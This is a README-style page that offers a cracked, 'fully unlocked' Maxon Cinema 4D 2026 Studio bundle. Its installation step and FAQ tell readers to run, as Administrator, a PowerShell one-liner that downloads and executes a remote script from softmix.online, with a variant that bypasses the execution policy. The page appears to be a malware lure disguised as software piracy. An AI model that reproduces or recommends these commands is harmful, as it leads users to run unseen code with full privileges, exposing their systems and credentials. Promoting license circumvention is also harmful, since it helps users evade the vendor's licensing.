

<div align="center">


<br>


# Maxon Cinema 4D 2026 Studio Bundle
**Studio 2026 · MoGraph · Redshift**
<br>
**Studio 2026 · MoGraph · Redshift**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Maxon Cinema 4D 2026 Studio — MoGraph effectors, Redshift GPU rendering, volume builder and Forger tools active.**

</div>

---

> Studio bundle includes MoGraph, Redshift and Forger — create motion graphics without Maxon subscription billing.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🧊 **3D pipeline** — Model, texture, light and render in one workflow.
- 🎬 **MoGraph** — Cloner, effectors and dynamics fully enabled.
- 💡 **Redshift GPU** — GPU-accelerated rendering without node limits.
- 🎨 **Forger sculpting** — Digital sculpting tools included in bundle.
- 🔓 **All modules** — Volume builder, fields and premium assets active.
- 📤 **Export** — Alembic, USD and multi-pass render without watermarks.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 20 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 20 GB free space.
</details>


TAGS
cinema-4d, c4d-studio, maxon-c4d, mograph-c4d, redshift-render, c4d-2026, motion-graphics-c4d, 3d-graphics, motion-graphics, rendering, broadcast-design, animation, creative-tools, maxon-cinema-4d, maxon-cinema-4d-2026
